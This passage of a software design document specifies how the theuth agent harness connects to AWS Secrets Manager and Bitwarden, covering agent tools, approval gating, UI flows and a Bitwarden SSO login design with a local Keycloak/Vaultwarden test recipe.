  says why. No "accept invalid certificates" option exists, or is offered.
- **Web vault URL** (for Send links, §12): `us` → `https://vault.bitwarden.com`, `eu` →
  `https://vault.bitwarden.eu`, `self_hosted` → `base_url`. It can be overridden with `web_vault_url`.

### 6.3 RPC (`crates/secrets/src/rpc.rs`, audience owner)

```rust
#[method(name = "list_secret_connections")]   async fn list_secret_connections(&self) -> RpcResult<Vec<ConnInfo>>;
#[method(name = "add_secret_connection")]     async fn add_secret_connection(&self, conn: String, cfg: ConnConfig) -> RpcResult<ConnInfo>;
#[method(name = "remove_secret_connection", with_extensions)] async fn remove_secret_connection(&self, conn: String) -> RpcResult<()>;
#[method(name = "connection_login")]          async fn connection_login(&self, conn: String, form: LoginForm) -> RpcResult<LoginStep>;
#[method(name = "connection_unlock")]         async fn connection_unlock(&self, conn: String, password: String) -> RpcResult<ConnInfo>;
#[method(name = "connection_lock")]           async fn connection_lock(&self, conn: String) -> RpcResult<ConnInfo>;
#[method(name = "list_external_secrets")]     async fn list_external_secrets(&self, conn: String, q: ListQuery) -> RpcResult<ListPage>;
#[method(name = "answer_unlock")]             async fn answer_unlock(&self, id: RequestId, password: Option<String>) -> RpcResult<bool>;
```

- `ConnInfo` = `{ conn, backend, status, summary /* "work-admin · eu-west-1" | "me@… · vault.bitwarden.eu" */, ask: { read: bool, write: bool, delete: bool, send: Option<bool> }, settings: ConnSettings }`.
- `set_connection_setting(conn, key, value)` / `set_external_setting(key, value)` write a D20 key to
  `config.yaml`. Loosening from a non-press caller raises the human-only card (D20).
- `delete_external_secret(conn, id, mode)` and `restore_external_secret(conn, id)` back the Delete
  and Restore buttons. The user is the actor, so there is no card.
- `create_send(conn, args)` and `copy_send_link(id)`: §12.5.
- `reveal_external_secret(conn, ref) -> String` (D25): an owner press only (219 §2.4's test);
  every other caller gets `reveal is an owner action in the desktop app`. Refused when the
  connection's `allow_reveal` is off. Writes the audit line before returning.
  `ask` is read from the always-ask global set.
- `LoginForm` = `ApiKey { client_id, client_secret }` or
  `Password { email, password, two_factor: Option<(provider, code)>, new_device_otp: Option<String> }`.
- `LoginStep` = `Done | NeedTwoFactor { providers } | NeedNewDeviceOtp`.
- `add_secret_connection` writes `config.yaml` with `runtime::write_config_value`
  (`crates/runtime/src/lib.rs#L127-L133`) and adds the two always-ask entries **before** it registers
  the backend, so there is never a window in which the connection is un-gated.
- `remove_secret_connection` is a human press like 219 §2.4. It removes the `meta` rows, the config
  entry and the two always-ask entries. Removing those entries along with the connection is not an
  un-gating, because the connection is gone.
- **Seeding by hand.** A connection added by hand-editing `config.yaml` is seeded at load: for each
  connection without a `meta` stamp `ext/seeded/<conn>`, add both entries, then stamp. A user who
  edits config by hand still starts at always-ask, and a later removal through Settings sticks
  (the stamp exists).
- **Values over the wire.** `connection_login`, `connection_unlock` and `answer_unlock` carry secrets
  inbound only, like `set_secret` (37 §3.8): loopback-token or Noise-encrypted.

## 7. Agent tools

All in `crates/secrets/src/tools_external.rs`, registered only when at least one connection exists
and `secrets.tools` is on. All share one prompt paragraph (§7.4). Style follows
`crates/secrets/src/tools.rs`: receipts in plain text, a `structured` mirror, never a value or a
length (37 D1).

| Tool | Risk | Always-ask key it touches | `CONSUMES_SECRETS` |
|---|---|---|---|
| `secret_external_list` | `ReadOnly` | `…:read` of `connection` (every connection when absent) | false |
| `secret_external_describe` | `ReadOnly` | `…:read` | false |
| `secret_external_import` | `ReadOnly` (writes only the local vault, like `secret_capture`, 37 §3.2) | `…:read` | false |
| `secret_external_create` | `Mutating` | `…:write` (+ `…:read` never) | false |
| `secret_external_update` | `Destructive` (a Bitwarden field edit keeps no history; AWS keeps one previous stage) | `…:write` | false |
| `secret_external_delete` | `Destructive` | `…:delete` | false |
| `secret_delete` (local vault, D24) | `Destructive` | 219 entry `secret_delete` (seeded) | false |
| `secret_request` + `destination` | `ReadOnly` → `Mutating` via `credentialed` (D14) | `…:write` | false (as today) |
| any tool with `{{secret:aws/…}}` / `{{secret:bw/…}}` | its own | `…:read` | true |
| `secret_send_create` / `_list` / `_revoke` | §12.3 | `…:send` (+ owner-only answering, `send_owner_only`) / `…:read` / policy | false |

`CONSUMES_SECRETS = false` on every `secret_external_*` tool: their args are references *as data*.
`secret_external_list` with `query: "{{secret:bw/…}}"` must not expand, the same argument
`crates/tools/src/lib.rs#L395-L405` makes for search tools. `external_access` (§3.3) knows these
tools by name and reads `connection` / `ref` from their args.

### 7.1 Reads

```rust
/// `secret_external_list`: what an external manager holds. Names and places, never values.
pub struct ExtListArgs {
    /// `prod`, `personal`; absent = the connections, with status, and nothing else (no read, no card).
    pub connection: Option<String>,
    /// Substring on name, folder, collection.
    pub query: Option<String>,
    /// From the previous page's `next`.
    pub cursor: Option<String>,
}
// RETURNS = "list[dict]"
// → no connection: "prod · aws · work-admin · eu-west-1 · ready\npersonal · bw · vault.bitwarden.eu · locked"
// → "aws/prod/app/db/main · json · keys: host, password · AWSCURRENT 2026-11-02 · use {{secret:aws/prod/app/db/main#password}}"
// → "bw/personal/2f1c…e9 · login \"GitHub\" · Personal / Dev · fields: password, username, totp, field:recovery · rev 2026-10-30"
//   structured: [ExtEntry]
// → "bw/personal is locked; the user was asked to unlock it" (after the card) | "… unlock declined"
```

`connection: None` touches no manager: it lists the engine's connections from config and status, so
it is not a read and raises no card. That gives the model a free way to discover what exists.

```rust
/// `secret_external_describe`: one entry's versions and fields.
pub struct ExtDescribeArgs { pub r#ref: String /* `aws/prod/app/db/main` or `bw/personal/<uuid>` */ }

/// `secret_external_import`: copy an external value into the local vault under NAME, so later uses
/// follow the local rules (37) and do not touch the manager. A snapshot: it does not follow rotations.
pub struct ExtImportArgs {
    pub r#ref: String,          // with #key / #field
    pub name: String,           // local NAME
    pub note: Option<String>,   // default "from <ref> <version>"
    #[serde(default)] pub replace: bool,   // 37's guard
    pub expires: Option<String>,           // 37/79's grammar; a TOTP import is refused (it is a 30 s code)
}
// → "stored GH v1 from bw/personal/2f1c…#password (rev 2026-10-30); {{secret:GH}}"
```

The `AWS keys` column is filled only from a `describe` whose card the user allowed. `describe` of an
AWS secret does a `GetSecretValue` to learn the JSON key *names*, discards the values (zeroized), and
returns only the names. So `describe` is a read and asks. Without it, the model cannot know to write
`#password`.

### 7.2 Writes

```rust
/// `secret_external_create`: put a local secret's current value into the external manager as a new entry.
pub struct ExtCreateArgs {
    pub connection: String,
    /// Local NAME whose current value is written. Never a literal value (37 D5).
    pub from: String,
    pub destination: Destination,   // §7.3
}
// → "created aws/prod/app/ci/token (version 4b9e…, AWSCURRENT); use {{secret:aws/prod/app/ci/token}}"
// → err "aws/prod/app/ci/token exists; secret_external_update replaces it"

/// `secret_external_update`: replace an external value with a local secret's current value.
pub struct ExtUpdateArgs {
    pub r#ref: String,              // with #key (AWS JSON: that key only; the others are kept) / #field
    pub from: String,               // local NAME
    /// The version from `describe` / `list` (VersionId / revision date). Required: no blind writes.
    pub expected: String,
}
// → "updated aws/prod/app/db/main#password: version 7c1d… is AWSCURRENT, 4b9e… is AWSPREVIOUS ({{secret:aws/prod/app/db/main:-1}})"
// → "updated bw/personal/2f1c…#password (rev 2026-11-25T10:02Z; Bitwarden keeps the old password in the item's history)"
// → err "bw/personal/2f1c… changed since rev 2026-10-30 (now 2026-11-20); describe it again"
```

`from` names a local secret, so the value path is always: the user's keyboard or a capture into the
local vault (37), then from the vault to the manager. That makes `secret_capture` + `create` the way
to push a freshly minted token (for example `gh auth token`) without the model ever seeing it.

### 7.3 Collect and store: `secret_request` gains `destination`

```rust
pub struct RequestArgs {           // crates/secrets/src/tools.rs#L153-L174, plus:
    /// Store the answer(s) in an external manager instead of (or as well as) the local vault.
    #[serde(default)]
    pub destination: Option<Destination>,
}

#[derive(Deserialize, JsonSchema)]
pub struct Destination {
    pub connection: String,
    /// AWS: the secret name (`app/ci/token`). Bitwarden: the item's name (`GitHub — CI`).
    pub name: String,
    /// Update this entry instead of creating one (its `ref`). The card says "replaces".
    pub replace: Option<String>,
    /// Also keep a local copy under the field's `name` (default false: the manager is the truth).
    #[serde(default)] pub keep_local: bool,
    // AWS
    pub kms_key_id: Option<String>,          // default: the connection's, else aws/secretsmanager
    /// `string` (one field → SecretString) | `json` (every field → {"<field.name>": value}).
    pub format: Option<AwsFormat>,
    // Bitwarden
    pub org: Option<String>, pub collection: Option<String>, pub folder: Option<String>,   // names; resolved to ids on the card
    pub item: Option<BwKind>,                // login | secure_note
    /// Per form field: which Bitwarden field it fills: `password` | `username` | `totp` | `notes` | `field:<name>`.
    pub fields: Option<BTreeMap<String, String>>,
    pub uri: Option<String>,                 // login items
}
// → "stored in aws/prod/app/ci/token (version 4b9e…); use {{secret:aws/prod/app/ci/token}}"
// → "stored in bw/personal/9a0d… (login \"GitHub — CI\", Personal / theuth); use {{secret:bw/personal/9a0d…#password}}"
// → "declined" | "no answer after 1800 s" | err from the manager (the value is discarded, never kept)
```

- **Flow.**
  1. Gate: always-ask card for `…:write`, which shows the destination in the args.
  2. The `SecretRequested` card, which gains `destination: Option<DestinationView>` (resolved
     names, the item's current revision when `replace`).
  3. The user may **change the destination on the card** (a picker, §9.3). The answer carries the
     final destination.
  4. Write. The receipt names where it went, and the model learns the final ref from it.
- **Which engine writes.** The engine that owns the asking session (D15). `answer_secret` on another
  engine forwards the answer there when the request row has a `destination`
  (`crates/secrets/src/lib.rs#L111-L136` gains `destination`, migration
  `0005_request_destination.sql`). The replicated row carries the
  destination metadata, never the value.
- **Username and URI.** These are not secret, and the card may show them unmasked
  (`SecretRequestField.masked = false`, `crates/secrets/src/lib.rs#L92-L105`). They still never reach
  the model as values: the receipt does not echo them.
- **Failure.** If the write fails after the user typed the value, the value is dropped (zeroized) and
  the receipt is the error. With `keep_local: true` the local copy is written first, so it survives;
  the receipt says so.

### 7.4 Delete

```rust
/// `secret_external_delete`: delete an external entry. Recoverable by default.
pub struct ExtDeleteArgs {
    /// `aws/prod/app/old-token` or `bw/personal/<uuid>`; no #key/#field (an entry is deleted whole).
    pub r#ref: String,
    /// The version from `describe` / `list`. Required: no blind deletes.
    pub expected: String,
    /// AWS only: days before AWS purges it, 7..=30. Default: the connection's `delete_recovery_days` (30).
    pub recovery_days: Option<u8>,
    /// Skip recovery (AWS ForceDeleteWithoutRecovery / Bitwarden permanent delete).
    /// Refused unless the connection's `allow_permanent_delete` is on.
    #[serde(default)] pub permanent: bool,
}
// → "deleted aws/prod/app/old-token; AWS purges it on 2026-12-25 (restore from Secrets › prod until then)"
// → "moved bw/personal/2f1c… (login \"Old VPN\") to the Bitwarden trash"
// → err "permanent delete is off for bw/personal (Settings › Secrets › personal › Allow permanent delete)"
```

Risk `Destructive`; gate `secret:<b>/<conn>:delete` (always ask by default, D6). The card shows the
entry's name and place, and either "recoverable until …" or "**permanent**". With `write_scope:
personal` (D20), an organisation item is refused for delete as for writes. Deleting a secret that
other references point to does not touch them; they fail on next use with `NotFound`.

### 7.5 Prompt paragraph (appended to 37's block when a connection exists, ≈150 tokens)

```
External managers are connected: {conns}. Reference one of their secrets like a vault secret:
{{secret:aws/CONN/NAME}} (#key for one JSON key, :-1 for the previous version) or
{{secret:bw/CONN/ITEM-ID#password}} (#username, #totp, #notes, #field:NAME). The user may be asked to
approve calls that read, write, delete or share one (per their settings). secret_external_list shows what is there (names and places, never
values); secret_external_import copies one into the vault; secret_request with a destination asks the
user for a value and stores it in the manager. You can never see these values.
```

### 7.6 Local vault delete (D24)

```rust
/// `secret_delete`: delete a local vault secret and every kept version. Cannot be undone: the vault has no trash.
pub struct DeleteArgs {
    /// The local NAME (`[A-Za-z0-9_.-]{1,64}`). `/` names and Send link secrets are refused.
    pub name: String,
    /// The current version number from `secret_list` (`v7`): guards against deleting the wrong name.
    pub confirm: u32,
}
// NAME = "secret_delete", RISK = Destructive, RETURNS = "str", CONSUMES_SECRETS = false
// → "deleted GITHUB_TOKEN (v7 and 2 older versions); {{secret:GITHUB_TOKEN}} no longer resolves"
// errors: "GITHUB_TOKEN is at v8, not v7; secret_list shows the current version" | "unknown secret X"
//   | "send-personal-3fa9c2d1 is a Send link; secret_send_revoke revokes it" | "oauth/… is not a user secret"
```

- The card always asks (219 entry `secret_delete`, D24). Its args are merged with a preview
  (`APPROVAL_PREVIEW`): the note, the number of versions, `updated`, and, for a harness key
  (`anthropic`, `openai`, a gateway, `slack_bot`, …), the line "theuth itself uses this key for
  <provider>".
- It runs `secrets::Delete { name }` on the actor, the same path as the user's delete
  (`crates/secrets/src/lib.rs#L167-L172`), with an added check of `confirm` against the current
  version inside the actor. It publishes `SecretsChanged`.
- 37's prompt block gains one sentence: "`secret_delete` removes a secret and all its versions for
  good; the user is asked first."

## 8. Settings: the ask mode

- **Settings › Approvals › "Always ask, even when approvals are off"**
  (`crates/desktop/ui/src/components/settings/Approvals.tsx#L55-L87`) lists the `secret:…:read`,
  `…:write`, `…:delete` and `…:send` entries like any other, with a label from `ConnInfo` (`personal (Bitwarden) ·
  read`). They are removed with the existing control, which raises the human-only card off-app (219
  §2.4). Autocomplete in the add field offers them, so a user can put one back.
- **Secrets page, connection row** (§9.1): four switches, "Ask before every read", "… write",
  "… delete" and (Bitwarden) "… Send", all on by default. Each calls `set_always_ask(null, "secret:bw/personal:read", on)`. They
  are a second view of the same entries, not a second store.
- **Per chat.** `/always-ask secret:bw/personal:read` works in the TUI and desktop slash commands
  unchanged (219 §6.1, §6.2), so a chat can be stricter than the harness.
- **What "off" means.** Removing `…:read` returns that connection's references to 37's rule (a
  placeholder is at least `Ask`, which `/approvals off` silences). Removing `…:write` makes
  `secret_external_create` / `update` follow `tools.policy` for `Mutating` / `Destructive`. Writes
  through `secret_request` still show the request card, which is itself a human action. Removing
  `…:delete` makes `secret_external_delete` follow the policy for `Destructive`. Removing `…:send`
  makes `secret_send_create` follow the policy for `Destructive`; `send_owner_only` then still
  decides *who* may answer if a card is raised.
- **The other D20 settings** sit in the connection's **Settings** disclosure on the Secrets page
  (per connection) and under Settings › Secrets (harness-wide). Each row has its one-sentence cost,
  for example "Remember unlock: Bitwarden stays unlocked across restarts; this machine's key then
  protects your vault instead of your master password". The same keys are editable in `config.yaml`,
  where 219's config-file guard already makes an agent's write always ask
  (`docs/design/219-always-ask.md#L64`).

## 9. UI flows

### 9.1 Desktop `/secrets` page (`crates/desktop/ui/src/components/library/Secrets.tsx#L27`)

- A **Connections** section above the local list. One row per connection: backend glyph, name,
  summary, status dot (`ready` / `locked` / `logged out` / `expired`), Lock or Unlock, the four
  ask switches and the Settings disclosure (§8), and Remove (confirm, human press).
- **Add connection** opens a stepper:
  - *AWS*: name → profile (a select fed by `list_aws_profiles`; `(default chain)` first) → region
    (a select of Secrets Manager regions, default from the profile's `region` if it has one) →
    optional KMS key and prefix → **Test** (`probe`) → Save.
  - *Bitwarden*: name → server (`US cloud` / `EU cloud` / `Self-hosted` + base URL, an "Advanced"
    disclosure for API and identity URLs and a CA file) → email → login method (`API key`
    recommended / `Password`) → the masked login card (§9.4) → the unlock card → Save. Prelogin runs
    as soon as the email field blurs, so an unreachable server or an unknown account fails at step 3,
    not at the end.
- **Browse.** Selecting a ready connection lists `list_external_secrets` (metadata only, the same
  shape the tool returns) with search and folders/collections as a tree for Bitwarden, and prefix
  paths for AWS. Each row has **Copy reference** (copies `{{secret:bw/personal/…#password}}`, never
  a value), **Import to vault** (the `set_secret` path with `source: "bw/personal/<id>"`), **Send…**
  (§12.5) and **Delete** (recoverable; "Delete permanently" appears only when
  `allow_permanent_delete` is on). A **Deleted** filter lists AWS secrets pending deletion and the
  Bitwarden trash, each with **Restore**. The user's browsing goes straight through the owner RPC, not through a tool, so it raises no
  approval card: the human is the actor.
- **Reveal** (D25), on every value-bearing row (an AWS secret or JSON key, a Bitwarden field), unless
  the connection's `allow_reveal` is off.
  - It calls `reveal_external_secret(conn, ref)` and shows the value in a masked field with an eye
    toggle. The value auto-hides after 30 s, and a Copy button clears the clipboard after 60 s.
  - The value is held in component state only, never in the query cache or local storage, and is
    dropped on hide.
  - Every reveal writes an audit line.

### 9.2 Desktop `SecretRequestCard` (`crates/desktop/ui/src/components/chat/SecretRequestCard.tsx#L108`)

- With `destination`, the card shows a **Destination** strip above the fields: `Bitwarden · personal ›
  Personal / theuth · new login "GitHub — CI"`, or `AWS · prod (work-admin, eu-west-1) · app/ci/token ·
  JSON · KMS alias/app`. A Change button opens the picker:
  - *AWS*: name text field, KMS, plain/JSON.
  - *Bitwarden*: org → collection, or folder for personal items; item type; per-field target
    selects; "create new" or "replace existing" with a search over the connection's items.
- A locked Bitwarden destination shows the unlock field inline first (§9.4), so the user answers
  everything on one card.
- Store → `answer_secret(id, value | values, expires_ms, destination)`. The new tail argument is
  optional, so older clients still answer local-only requests.
- `secret-expiry.ts` applies only to `keep_local` copies. Neither manager expires values in a way
  theuth controls, and the control is hidden otherwise.

### 9.3 TUI (`crates/tui`)

- `/secrets` (`crates/tui/src/components/secrets.rs#L12`, `#L139-L160`) gains a connections header row
  per connection (`prod · aws · ready`, `personal · bw · locked`). On a connection row:
  - `u` unlocks: a masked prompt step, the `/provider add` mask pattern (37 §5);
  - `l` locks;
  - `Enter` browses (rows `ref · kind · place · rev`);
  - `y` copies the reference;
  - `i` imports;
  - `d` deletes (recoverable; a confirm line names the recovery window);
  - `S` creates a Send (§12.5).
- `/secrets connect aws|bw` walks the add flow as prompt steps. AWS profiles come from
  `list_aws_profiles`.
- The request modal shows the destination as one line (`→ bw/personal › Personal/theuth · login`).
  It cannot change the destination: a TUI user who wants a different one declines and asks the agent,
  or uses the desktop.
- The unlock modal reuses the request modal's frame: `unlock bw/personal (me@…) · ••••• · enter
  unlock · esc cancel`.
- The always-ask entries show in the `/always-ask` listing unchanged.
- No Reveal (D25): the TUI is the internal connection. Value rows show `reveal in the desktop app`.

### 9.4 Login and unlock cards (all surfaces)

- `SecretsEvent::UnlockRequested { id, conn, backend, account, reason /* the ref that needs it */ }`
  and `UnlockResolved { id, ok }` are new event variants, renamed on the wire like 37 §15.1 does
  (`ExternalUnlockRequested`, …).
- They are answered with `answer_unlock` and are **not** replicated rows. The unlock must happen on
  the owning engine, so other engines' apps answer through the forward path (D15), never through a
  stored row.
- Login (API key or password+2FA) is a Settings action by default. A logged-out connection makes the
  call fail with `bw/personal is logged out; the user logs in from the Secrets page`. With
  `agent_may_request_login` on (D20), the call instead raises the login card (§6.3 `LoginForm`, the
  same masked card) and waits like an unlock.
- Slack, Telegram and Signal: one notice line, exactly as 37 §7 does for requests. Nothing is
  answerable in-channel.

### 9.5 iOS and phones over the relay

Same desktop pane over `LinkTransport` (37 §6). Unlock from a phone is allowed: it is the owner,
Noise-encrypted end to end. Adding a Bitwarden connection from a phone is allowed. Adding an AWS
connection from a phone lists the *engine's* profiles, which is correct.

### 9.6 Bitwarden SSO login

For organisations that sign their members in with SSO and still give each member a master password
("SSO + master password"). Status: contract, spike done 2026-11-25, not built. The numbering is
§9.6 because §9.5 is taken (phones).

**What the spike found.**
- *Bitwarden's own CLI* (`clients@main:apps/cli/src/auth/commands/login.command.ts`,
  `makeSsoPromptData` / `openSsoPrompt`):
  - `state` and `code_verifier` are 64-character alphanumeric strings. `code_challenge` is
    base64url(SHA-256(verifier)), unpadded.
  - It listens on `localhost`, trying ports 8065–8070 in turn, and opens the web vault at
    `<web vault>/#/sso?clientId=cli&redirectUri=http%3A%2F%2Flocalhost%3A<port>&state=…&codeChallenge=…&identifier=<org>`.
  - The web vault's `SsoComponent` (`libs/auth/src/angular/sso/sso.component.ts`, `submitSso` /
    `buildAuthorizeUrl`) calls `GET <identity>/sso/prevalidate?domainHint=<org>`, which answers
    `{ "token": "<ssoToken>" }`. It then sends the browser to:

    ```
    <identity>/connect/authorize?client_id=cli&redirect_uri=http://localhost:<port>
      &response_type=code&scope=api offline_access&state=<state>_identifier=<org>
      &code_challenge=<c>&code_challenge_method=S256&response_mode=query
      &domain_hint=<org>&ssoToken=<ssoToken>
    ```

    The `_identifier=<org>` suffix rides in `state`. Clients compare only the part before it.
  - The browser comes back to `http://localhost:<port>/?code=…&state=…`. Vaultwarden also appends
    `&scope=…&iss=…`.
  - Token request, `POST <identity>/connect/token`, form-encoded (`SsoTokenRequest` + `TokenRequest`):
    `grant_type=authorization_code`, `code`, `code_verifier`, `redirect_uri` (byte-identical to the
    one in the authorize URL), `scope=api offline_access`, `client_id=cli`, `deviceType`,
    `deviceIdentifier`, `deviceName`. For 2FA it adds `twoFactorToken`, `twoFactorProvider` and
    `twoFactorRemember`.
- *Server* (`server@main`):
  - The `cli` client allows the redirect URIs `http://localhost:8065` … `:8070` and nothing else
    (`StaticClientStore.LocalhostPortUris`). The host must be `localhost`, not `127.0.0.1`.
  - `/sso/prevalidate` proxies the SSO service's `PreValidate`, which checks that the org
    identifier exists and has SSO on.
  - **2FA applies to SSO logins.** `RequiresTwoFactorAsync` exempts only `client_credentials` and
    `webauthn`, so `NeedTwoFactor` can follow an SSO code.
  - **New-device verification does not apply.** `DeviceValidator` enforces it for
    `GrantType.ResourceOwnerPassword` only.
  - The authorization code is not consumed on validation (`AuthorizationCodeStore.RemoveAuthorizationCodeAsync`
    is a no-op), so the same code may be sent again with the 2FA token while it is still valid.
    The code lifetime is IdentityServer's default, 300 s.
- *Decryption options.* The token response's `UserDecryptionOptions` (`server@main:src/Core/Auth/Models/Api/Response/UserDecryptionOptions.cs`;
  serde must accept both PascalCase and camelCase keys, as the SDK's
  `identity_success_response.rs` does) carries the following. Bitwarden's CLI accepts
  master password or Key Connector and refuses the rest (`validateSsoUserHasCliSupportedDecryptionPath`).
  - `HasMasterPassword` (obsolete but still sent) and `MasterPasswordUnlock` (KDF, salt and the
    master-key-wrapped user key when a master password exists).
  - `TrustedDeviceOption`, `KeyConnectorOption` and `WebAuthnPrfOption`, each absent when unused.
- *SDK `sdk@2b06afa`.* There is no SSO login: no `authorization_code` grant, no prevalidate, no PKCE.
  Only the response models (`bitwarden-auth/src/login/api/response/*user_decryption_option*`) exist.
  theuth therefore uses raw HTTP through the SDK client's own `reqwest`, exactly like the password
  login (G7, `password.rs`). After the token exchange it reuses `unlock_with_tokens` with
  `UserLoginMethod::Username { client_id: "cli", … }`, so renewal is refresh-token based. This is
  the existing password-connection restart path unchanged: refresh token stored, master password on
  the unlock card.
- *Vaultwarden 1.37.5* has SSO (`SSO_ENABLED`, one OIDC provider for the whole server).
  - `/identity/sso/prevalidate` answers a token and ignores `domainHint`. Any identifier works.
  - `cli` is accepted with `http://localhost:8065…8070` only (`src/sso.rs` `authorize_url`).
  - 2FA runs after SSO (`_sso_login` → `twofactor_auth`).
  - The token response carries `UserDecryptionOptions.HasMasterPassword` /
    `MasterPasswordUnlock`.
  - `/connect/authorize` sets a `VW_SSO_BINDING` cookie that `/connect/oidc-signin` checks, so the
    authorize URL must be opened by the same browser (or cookie jar) that finishes the IdP login.
    The engine never fetches it itself.
  - Verified end to end in the spike: a cookie-jar HTTP client walked authorize → Keycloak login form
    → `http://localhost:8065/?code=…&state=…`, and the token exchange answered 200. A user created
    by SSO had `HasMasterPassword: false`, `MasterPasswordUnlock: null` and no `PrivateKey`. That is
    the "no master password" case below.

**Test recipe (Keycloak + Vaultwarden, one network namespace so one issuer URL works for both the
container and the test).**

```sh
docker run -d --rm --name sso-kc -p 127.0.0.1:8081:8081 -p 127.0.0.1:18232:18232 \
  -e KC_BOOTSTRAP_ADMIN_USERNAME=admin -e KC_BOOTSTRAP_ADMIN_PASSWORD=admin -e KC_HTTP_PORT=8081 \
  quay.io/keycloak/keycloak:26.6.2 start-dev
# when http://127.0.0.1:8081/realms/master answers:
docker exec sso-kc bash -c 'export PATH=/opt/keycloak/bin:$PATH
  kcadm.sh config credentials --server http://127.0.0.1:8081 --realm master --user admin --password admin --client admin-cli
  kcadm.sh create realms -s realm=test -s enabled=true
  kcadm.sh create clients -r test -s clientId=warden -s secret=warden -s "redirectUris=[\"http://127.0.0.1:18232/*\"]"
  U=$(kcadm.sh create users -r test -s username=sso1 -s email=sso1@example.org -s emailVerified=true -s enabled=true -s firstName=s -s lastName=s -i)
  kcadm.sh update users/$U/reset-password -r test -s type=password -s value=idp-pass -n'
docker run -d --rm --name sso-vw --network container:sso-kc \
  -e ROCKET_PORT=18232 -e DOMAIN=http://127.0.0.1:18232 -e I_REALLY_WANT_VOLATILE_STORAGE=true \
  -e SIGNUPS_ALLOWED=true -e SSO_ENABLED=true -e SSO_AUTHORITY=http://127.0.0.1:8081/realms/test \
  -e SSO_CLIENT_ID=warden -e SSO_CLIENT_SECRET=warden -e SSO_SIGNUPS_MATCH_EMAIL=true \
  vaultwarden/server:1.37.5
# BW_VAULTWARDEN_URL=http://127.0.0.1:18232 … ; afterwards: docker stop sso-vw sso-kc
```

- The test drives the IdP login with a cookie-jar client: follow redirects, POST the Keycloak form
  (`username`, `password`), and stop at the `http://localhost:806x` redirect.
- Keycloak's cookies are `Secure`, so over plain http the client must send them anyway.
- For the master-password case, register `sso1@example.org` with a master password first (the
  suite's `register_full`). `SSO_SIGNUPS_MATCH_EMAIL` then links the SSO identity to it.
- For 2FA after SSO, turn on authenticator 2FA for that account, as
  `password_totp_login_then_restart_unlocks_without_2fa` does.

**Engine.**
- Config: flat. `login: sso` (`BwLogin::Sso`, still a unit variant) and `org_identifier: <identifier>`
  beside it in `ConnConfig::Bw` (`Option<String>`, default none; `LoginKind::Sso` in
  `secrets-bitwarden`). `email` stays required, because prelogin (KDF) and the unlock card need
  it. `ConnInfo` gains `login: Option<BwLogin>` (`None` for AWS), so the UIs know a logged-out
  connection is SSO.
- Two owner RPCs, `with_extensions`. Like `connection_login`, which gets the same gate: the
  owner's press runs directly, and any other caller gets the human-only card
  `secrets.connection_login` (args: the connection and the method, never a credential).

  ```rust
  #[method(name = "connection_sso_begin", with_extensions)]
  async fn connection_sso_begin(&self, conn: String, org_identifier: Option<String>, redirect_port: Option<u16>) -> RpcResult<SsoBegin>;
  #[method(name = "connection_sso_complete", with_extensions)]
  async fn connection_sso_complete(&self, conn: String, state: String, code_or_redirect_url: String, two_factor: Option<(String, String)>) -> RpcResult<LoginStep>;
  ```

  - `SsoBegin` = `{ authorize_url, state, redirect_port }`.
  - Change from the first sketch: `redirect_port` is an input. The loopback listener runs where the
    browser runs (the desktop shell, possibly not on the engine's machine), so the shell binds a
    free port in 8065–8070 first and passes it. `None` (TUI) means 8065. Anything outside 8065–8070
    is refused.
  - `org_identifier: None` uses the connection's configured one. A given one replaces it in config.
  - `begin` makes the 64-character `state` and verifier and builds `code_challenge`. It calls
    `<identity>/sso/prevalidate?domainHint=<org>` itself. A non-200 becomes
    `ExtError::Denied("<server message> (SSO identifier <org>)")`.
  - `begin` returns the identity server's authorize URL (above), not the web vault's `#/sso` page.
    That saves a hop and does not depend on the web vault. The web vault's page only does this
    same prevalidate-then-redirect.
  - `begin` keeps `{ conn, verifier, redirect_uri, created }` in memory under `state`, with a
    10-minute TTL. Expired entries are swept on each `begin`. There is at most one pending entry
    per connection: a new `begin` replaces the old one.
  - `complete` accepts the bare code, or the full pasted redirect URL. For a URL it takes `code`
    and `state` from the query. A query `state` that differs from the RPC's `state` →
    `Denied("the SSO answer belongs to another login attempt")`. A query `error` /
    `error_description` → `Denied(<description>)`.
  - `complete` compares `state` in constant time and keeps the pending entry until `Done`, an error
    other than `NeedTwoFactor`, or the TTL. That lets `NeedTwoFactor` be answered by calling
    `complete` again with `two_factor` and the same code (the server allows the reuse within the
    code's life).
  - `complete` exchanges the code (form above; `deviceType` = the password login's CLI type for
    this OS, the per-connection device id from `meta`, `deviceName` "theuth"). It parses the answer with the
    password login's `parse_token_response` and `supported_factors`. Duo and WebAuthn are refused as
    for password login. `NeedNewDeviceOtp` cannot occur.
  - Then the decryption options are checked **before anything is stored**:
    - `TrustedDeviceOption` or `KeyConnectorOption` present, and no master password → `Unsupported("this account unlocks with trusted devices / Key Connector, which theuth doesn't support yet")`.
    - No master password and neither option (JIT-provisioned, never set one) →
      `Unsupported("this account has no master password yet; log in once in the Bitwarden web vault to set one")`.
    - `WebAuthnPrfOption` alone counts as no master password.
  - On success, `complete` stores the refresh token (`ext/bw/<conn>/refresh_token`, as for password
    login) and returns `Done`. The connection is then `Locked`.
  - The token answer's key material is not used to unlock: unlock needs the master password anyway,
    and the existing unlock path (`open_refresh` → `unlock_with_tokens`, `UserLoginMethod::Username
    { client_id: "cli" }`) re-reads it from `/sync`.
- After login: the existing unlock card (§9.4) asks for the master password. Restarts and an
  expired refresh token behave as for password login. `invalid_grant` gives `LoggedOut` and the
  hint "log in again with SSO".
- Values over the wire: the code is a one-time credential, inbound only, like `connection_login`.
  `authorize_url` carries no secret (the verifier stays in the engine). No audit line holds the
  code, the URL's query or the verifier.

**Desktop.**
- The shell (Tauri command, `crates/desktop/src`) binds a one-shot loopback listener for
  `localhost` on the first free port of 8065..=8070, on 127.0.0.1 and on ::1 (the browser may
  resolve `localhost` to either). It calls
  `connection_sso_begin` with that port and opens the system browser at `authorize_url`.
- The listener takes the first `GET /?code=…&state=…`. It answers a small "you can close this tab"
  page (or an error page for `error=`), hands the full URL to `connection_sso_complete` and closes.
- The flow times out after 5 minutes, with a Cancel button. Both close the listener.
  `NeedTwoFactor` continues on the same login card with the code field.

**TUI.**
- `/secrets connect bw` with SSO, or `l` on an SSO connection: prints `authorize_url` and asks the
  user to open it, sign in, then paste the address the browser lands on.
- That page fails to load (nothing listens on `localhost:8065`), which is expected: the code is in
  its address.
- The TUI then calls `connection_sso_complete` with the pasted text, and asks for the 2FA code on
  `NeedTwoFactor`.

**Both surfaces.**
- The connect flows show the hint "organisation requires SSO? use Login with SSO or API key" under
  the password option.
- A password login refused with `sso_required` is reworded to the same hint.

